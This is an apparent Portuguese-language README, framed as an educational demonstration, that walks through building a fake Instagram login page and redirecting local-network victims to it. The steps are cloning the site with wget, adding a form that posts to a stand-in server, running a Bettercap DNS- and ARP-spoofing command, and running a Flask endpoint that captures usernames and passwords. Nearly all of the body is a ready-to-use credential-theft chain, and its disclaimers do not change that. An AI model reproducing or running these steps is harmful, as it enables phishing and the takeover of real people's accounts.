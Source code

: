 <header>
<h1>Como Criar uma Página Falsa Usando DNS Spoofing e ARP Spoofing</h1>
</header>

<section>
<h2>Descrição</h2>
<p>Este projeto é uma demonstração de como ataques como DNS Spoofing e ARP Spoofing podem ser utilizados para redirecionar o tráfego da vítima para uma página falsa que você controla. Lembre-se, essas técnicas devem ser usadas apenas para fins educativos e em ambientes controlados. Qualquer uso mal-intencionado é ilegal e antiético.</p>
</section>

<section>
<h2>Objetivo</h2>
<p>O objetivo deste projeto é mostrar como um atacante pode redirecionar tráfego de uma rede local para uma página falsa, a qual coleta dados de login sensíveis (por exemplo, credenciais de um site como o Instagram).</p>
</section>

<section>
<h2>Como Funciona</h2>
<h3>DNS Spoofing (Falsificação de DNS)</h3>
<p>O atacante intercepta as consultas DNS e engana a vítima, direcionando o tráfego de um site legítimo (como "instagram.com") para seu próprio servidor.</p>

<h3>ARP Spoofing (Falsificação de ARP)</h3>
<p>Esse ataque manipula a tabela ARP, fazendo com que os pacotes da vítima sejam enviados para o computador do atacante.</p>

<h3>Página Falsa (Phishing)</h3>
<p>O atacante cria uma página que se parece com o site original (por exemplo, o Instagram), mas com a funcionalidade de coletar dados inseridos pela vítima, como nome de usuário e senha.</p>
</section>

<section>
<h2>Como Criar a Página Falsa</h2>

<h3>Passo 1: Baixar o código do site original</h3>
<p>Você pode usar ferramentas como <code>wget</code> ou <code>curl</code> para baixar o código HTML do site original. Isso permite que você tenha uma cópia do site em seu computador.</p>
<pre><code>wget -r -np -k http://instagram.com</code></pre>

<h3>Passo 2: Modificar o código para coletar dados</h3>
<p>Depois de ter o código do site, altere-o para incluir um formulário falso de login. Esse formulário irá coletar as credenciais inseridas pela vítima.</p>
<pre><code>
<form action="http://seu-servidor.com/pegar-dados" method="post">
<input type="text" name="username" placeholder="Usuário">
<input type="password" name="password" placeholder="Senha">
<input type="submit" value="Entrar">
</form>
</code></pre>

<h3>Passo 3: Servir a página falsa localmente</h3>
<p>Você pode usar Python para criar um servidor local e servir a página falsa. Para isso, basta rodar o seguinte comando:</p>
<pre><code>python3 -m http.server 8080</code></pre>

<h3>Passo 4: Configurar o ataque de DNS e ARP Spoofing</h3>
<p>Agora que você tem a página falsa e o servidor local configurados, é necessário redirecionar o tráfego para o seu computador. Isso pode ser feito usando ferramentas como o Bettercap.</p>
<pre><code>
sudo bettercap -iface wlan0 -eval "set dns.spoof.domains instagram.com.br; set dns.spoof.address 192.168.10.103; dns.spoof on; arp.spoof on"
</code></pre>
<p>Este comando faz com que o tráfego destinado ao "instagram.com.br" seja redirecionado para o seu servidor local (no caso, 192.168.10.103).</p>

<h3>Passo 5: Coletar os dados</h3>
<p>Quando a vítima acessar a página falsa e preencher o formulário de login, os dados serão enviados para o servidor especificado no atributo action do formulário.</p>
<p>Se você estiver usando Flask, você pode configurar um servidor para coletar esses dados:</p>
<pre>
<code>
from flask import Flask, request

app = Flask(__name__)

@app.route('/pegar-dados', methods=['POST'])
def pegar_dados():
    usuario = request.form['username']
    senha = request.form['password']
    print(f"Usuário: {usuario} | Senha: {senha}")
    return "Dados coletados!"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
</code></pre>
</section>

<section>
<h2>Resumo do Processo</h2>
<ol>
<li>A vítima tenta acessar "instagram.com".</li>
<li>O tráfego é redirecionado para o seu servidor local devido ao ataque de DNS Spoofing.</li>
<li>O servidor local serve a página falsa.</li>
<li>A vítima insere as credenciais de login na página falsa.</li>
<li>Os dados coletados são enviados para o seu servidor, permitindo que você capture as informações.</li>
</ol>
</section>

<section>
<h2>Aviso Legal</h2>
<p>Este tipo de atividade é ilegal e antiética. O uso dessas técnicas deve ser restrito a ambientes controlados e com a permissão explícita dos envolvidos, como em laboratórios de segurança e para fins educativos. Realizar ataques como este em redes ou sistemas sem autorização pode resultar em sérias consequências legais.</p>
</section>
